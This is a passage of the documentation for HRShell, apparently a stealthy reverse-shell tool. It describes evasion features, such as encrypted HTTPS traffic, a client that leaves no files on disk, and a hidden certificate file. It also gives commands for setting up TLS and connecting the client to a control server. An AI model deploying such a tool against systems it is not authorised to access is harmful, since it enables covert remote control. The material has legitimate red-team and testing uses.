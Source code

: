 <sub>*For version changes check-out [CHANGELOG](https://github.com/chrispetrou/HRShell/blob/master/CHANGELOG.md).</sub>

### Details
* * *

### Stealthy :squirrel:
HRShell is stealthy since it uses the HTTP(S) protocol as the communication method between client and server. In addition when TLS is in use the traffic is also encrypted. Also if the CERT is not hand coded on client-side (_which is a feasible option_) and the `upload` command is not used, then `client.py` doesn't touches the disk at all.

### TLS 🔑

__Server-side:__
Unless `--http` option is specified, by default `server.py` is HTTPS using _on-the-fly_ certificates, since on-the-fly certificates are a built-in flask-feature. But if `-s tornado` option is specified in order to make the server use TLS, a `--cert` and a `--key` option must be specified like so:

```
python server.py -s tornado --cert /path/cert.pem --key /path/key.pem
```

Either "real" certificates can be used or another way to generate a cert/key pair is e.g. either using [mkcert](https://github.com/FiloSottile/mkcert) or [openssl](https://www.openssl.org/) directly like so:

```
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365
```

A cert/key pair can also be used with the flask-server:
```
python server.py --cert /path/cert.pem --key /path/key.pem
```

> ⚠️ If the server is using TLS, then by design the client can't use `http://...` to connect to the server, but must explicitly use `https` instead.

__Client-side:__
By default client's SSL _verification_ is disabled, unless:
*   either the `--cert` parameter is specified e.g.:
    ```
    python client.py -s https://192.168.10.7:5000 --cert /path/cert.pem
    ```
*   or the `CERT` variable, instead of the default `None` value is set beforehand with a valid certificate e.g.:
    ```python
    CERT = """
    -----BEGIN CERTIFICATE-----
    MIIBoDCCAUoCAQAwDQYJKoZIhvcNAQEEBQAwYzELMAkGA1UEBhMCQVUxEzARBgNV
    BAgTClF1ZWVuc2xhbmQxGjAYBgNVBAoTEUNyeXB0U29mdCBQdHkgTHRkMSMwIQYD
    VQQDExpTZXJ2ZXIgdGVzdCBjZXJ0ICg1MTIgYml0KTAeFw05NzA5MDkwMzQxMjZa
    ...
    -----END CERTIFICATE-----
    """
    ```
    In this case _client.py_ will attempt to create a hidden _.cert.pem_ file on the fly and will use that instead.
